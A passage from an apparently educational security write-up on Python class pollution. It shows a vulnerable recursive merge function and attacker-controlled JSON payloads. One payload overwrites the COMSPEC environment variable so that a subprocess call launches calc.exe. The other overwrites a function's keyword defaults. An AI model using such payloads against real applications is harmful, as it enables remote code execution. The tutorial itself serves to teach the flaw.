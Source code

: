 ```
emp\_info = json.loads('{"\_\_init__":{"\_\_globals\_\_":{"subprocess":{"os":{"environ":{"COMSPEC":"cmd /c calc"}}}}}}') # attacker-controlled value

merge(emp_info, Employee())

subprocess.Popen('whoami', shell=True) # Calc.exe will pop up
```

##### Overwriting Function’s \_\_kwdefaults\_\_

\_\_kwdefaults\_\_

`__kwdefaults__` is a special attribute of all functions, based on Python [documentation](https://docs.python.org/3/library/inspect.html), it is a “mapping of any default values for **keyword-only** parameters”. Polluting this attribute allows us to control the default values of keyword-only parameters of a function, these are the function’s parameters that come after

*

`*` or

*args

`*args`.

```
import json

def merge(src, dst):
    # Recursive merge function
	for k, v in src.items():
		if hasattr(dst, '\_\_getitem\_\_'):
			if dst.get(k) and type(v) == dict:
				merge(v, dst.get(k))
			else:
				dst\[k\] = v
		elif hasattr(dst, k) and type(v) == dict:
			merge(v, getattr(dst, k))
		else:
			setattr(dst, k, v)

class Employee:
	def \_\_init\_\_(self):
		pass

def print_message(*, message='Hello there'):
	print(message)

print(print\_message.\_\_kwdefaults__)
print_message()

emp\_info = json.loads('{"\_\_class__":{"\_\_init\_\_":{"\_\_globals\_\_":{"print\_message":{"\_\_kwdefaults__":{"message":"Polluted default value"}}}}}}') # attacker-controlled value
merge(emp_info, Employee())

print(print\_message.\_\_kwdefaults__)
print_message()

#\> {'message': 'Hello there'}
#\> Hello there

#\> {'message': 'Polluted default value'}
#\> Polluted default value
```

